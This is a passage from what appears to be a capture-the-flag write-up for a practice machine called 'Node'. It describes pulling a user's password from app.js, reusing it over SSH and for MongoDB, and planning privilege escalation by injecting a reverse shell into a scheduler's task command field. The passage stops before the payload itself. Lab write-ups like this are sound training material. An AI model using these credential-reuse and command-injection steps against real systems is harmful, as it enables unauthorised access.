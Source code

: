 ```bash
0xStarlight@kali$ batcat app.js
```

![image](https://user-images.githubusercontent.com/59029171/139862818-fb924da2-aa05-4121-9253-1b0c5a6f9157.png)

> mark:5AYRft[SNIP...]
{: .prompt-info }

## SSH as Mark

Let us try to logon as SSH as Mark with the same password we found from the `app.js` file.
Maybe password reuse?
```bash
0xStarlight@kali$ ssh mark@10.10.10.58
```
Great we logged on !

![image](https://user-images.githubusercontent.com/59029171/139863122-bc3f27d6-99db-4c26-8b8d-6dcec8fffc90.png)

# Shell as Tom

We found MongoDB running on Mark's machine from the downloaded backup file. We check if any node services are running on the machine and try to connect it as Mark.
```bash
mark@node:/home$ ps aux | grep node
tom       1230  0.0  5.3 1008056 40400 ?       Ssl  18:55   0:01 /usr/bin/node /var/scheduler/app.js
tom       1234  0.0  5.6 1019880 42936 ?       Ssl  18:55   0:01 /usr/bin/node /var/www/myplace/app.js
mark      1541  0.0  0.1  14228   940 pts/0    S+   19:37   0:00 grep --color=auto node
```
It looks like Tom has the same file running on a different process
Let's read the content from `/var/scheduler/app.js` file.

![image](https://user-images.githubusercontent.com/59029171/139863489-c429d69d-6db0-4249-b1bb-07cdc630f992.png)

It looks like it creates a DB collection named task.
It takes an input parameter as cmd on line 18 and executes it, and then deletes it after the execution is done.
So now we can privilege escalation by injecting a reverse shell in the cmd parameter.
Let us try to connect to mongo DB as Mark using the scheduler process.

```bash
mark@node:/home$ mongo -u mark -p 5AYRft73VtFpc84k scheduler
```
![image](https://user-images.githubusercontent.com/59029171/139863624-5789a510-bdfb-4e4b-bb95-680dd04936ec.png)

It seems like the DB is empty after querying the data collections.

```shell
> show collections
tasks
> db.tasks.find()
> 
> db.task.count()
0
```
Let us add an object in the tasks collections with a cmd parameter containing a reverse shell that will connect back to Tom since the scheduler process is running as Tom.
